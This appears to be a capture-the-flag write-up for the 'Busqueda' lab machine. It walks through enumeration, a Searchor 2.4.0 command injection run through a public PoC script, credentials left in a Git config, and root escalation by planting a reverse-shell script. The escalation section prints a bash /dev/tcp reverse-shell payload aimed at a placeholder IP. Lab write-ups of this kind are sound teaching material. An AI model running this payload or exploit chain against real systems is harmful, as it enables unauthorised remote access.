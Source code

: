 # Busqueda Easy Linux Machine Write Up

## Machine Description

Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module. By leveraging this vulnerability, we gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service. Additionally, we uncover that a system checkup script can be executed with `root` privileges by a specific user. By utilizing this script, we enumerate `Docker` containers that reveal credentials for the `administrator` user&amp;amp;#039;s `Gitea` account. Further analysis of the system checkup script&amp;amp;#039;s source code in a `Git` repository reveals a means to exploit a relative path reference, granting us Remote Code Execution (RCE) with `root` privileges. 

## Vulnerability Found

1. Arbitrary CMD Injection in `Searchor` python module version 2.4.0
2. Insecure stored Git credentials on located in the server
3. System checkup script can be executed with root privilege

   
## Step to Re-produce

### Enumeration

### Network Enumeration

I used `nmap` with `-p-, -T5, -O, -oN` tags to enumerate the services that available in the network. 

<div align="center">
  <img src="https://github.com/user-attachments/assets/7c394f87-2128-467f-abaa-fa6b958092a4">
</div>

<div align="center">
  <p><span class="bolded"> Nmap Output</span></p>
</div>
</br>

From the output, I found that this network have 2 open services, ssh on port 22 and http on port 80.

### Web Enumeration

After found out that this network has http service, I looked into it. The interesting one is at the bottom of the page, which was showing what this web powered by.

<div align="center">
  <img src="https://github.com/user-attachments/assets/acbeb47d-8995-4de4-abbc-ebbd2ae335e6">
</div>

<div align="center">
  <p><span class="bolded"> Searchor Version</span></p>
</div>
</br>

As shown the above photo, I knew that this web used **Flask** and **Searchor version 2.4.0**. I was directly searching for the **Searchor** exploit and found out this version of Searchor is vulnerable to Aribitrary CMD Injection in the `eval()` function. I used this PoC: (Searchor Exploit)[https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection].

### Exploitation

In this stage, after finding the exploit for **Searchor 2.4.0**, I followed through the PoC and ran the exploit.sh that provided in the PoC Github. 

Command based on the PoC:

    ./exploit.sh site.com <Your-IP> <Your-Port>

<div align="center">
  <img src="https://github.com/user-attachments/assets/fb4235f6-7edc-4be9-92f7-672df2564429">
</div>

<div align="center">
  <p><span class="bolded"> Running the Script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/858b39ad-1cff-4d12-adad-062cb00b3b46">
</div>

<div align="center">
  <p><span class="bolded"> Gain user-access level</span></p>
</div>
</br>

After gaining access to user-level, I found the cat.txt and read it.

### Privilege Escelation

In this stage, to perform privilege escelation, I found a `.git` folder in the `/var/www/app` directory. In `config` file, I found the url and credentials to login into `Gitea`.

<div align="center">
  <img src="https://github.com/user-attachments/assets/cae3212e-0430-49f6-bedc-1af3edb12bda">
</div>

<div align="center">
  <p><span class="bolded"> Gitea URL and credential</span></p>
</div>
</br>

I tried to looked and logged in into the gitea web but found nothing interesting there (maybe I am not detailed enough). 

I connected into ssh using user `svc` and password that was found earlier(gitea cody's password). I ran `sudo -l` to see what file and command that user `svc` may run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/f1a5dbf8-fc95-4e94-ad9b-a8bc5fe1ce7a">
</div>

<div align="center">
  <p><span class="bolded"> Allowed run as root for svc</span></p>
</div>
</br>

I tried to run the command `sudo /usr/bin/python3 /opt/scripts/system-checkup.py *`, following the shown above, I found this:

<div align="center">
  <img src="https://github.com/user-attachments/assets/ce99808b-4860-494c-97f1-4aa0b8bc3623">
</div>

<div align="center">
  <p><span class="bolded"> Choices system checkup</span></p>
</div>
</br>

When I looked into `/opt/script` directory, I found out that it was a directory for a shell script that can be run.

<div align="center">
  <img src="https://github.com/user-attachments/assets/6be8d50f-a6e1-48a3-be1c-5069e746cd4f">
</div>

<div align="center">
  <p><span class="bolded"> Scripts</span></p>
</div>
</br>

It got me thinking for a while. But, I tried to create a new `full-checkup.sh` file in /home/user directory that containing bash command for reverse shell so that when I run it, the bash will be run.

Payload:

    #! /bin/bash bash -i >& /dev/tcp/YOUR-IP/YOUR-PORT 0>&1

I set up a netcat listener and ran the script using the same command like before, the difference was only I didn't use `*` because I chose the `full-checkup` to run the full-checkup script containing reverse shell.

<div align="center">
  <img src="https://github.com/user-attachments/assets/66622d61-360d-4261-981b-b979f18a52f2">
</div>

<div align="center">
  <p><span class="bolded"> Running the script</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/a1fb8ba5-d3fe-4c1f-9e6d-65120ab198de">
</div>

<div align="center">
  <p><span class="bolded"> Gaining root access</span></p>
</div>
</br>

<div align="center">
  <img src="https://github.com/user-attachments/assets/0c124544-0954-4066-8c38-4626b8adab5a">
</div>

<div align="center">
  <p><span class="bolded"> Root.txt</span></p>
</div>
</br>


Thank you for reading!

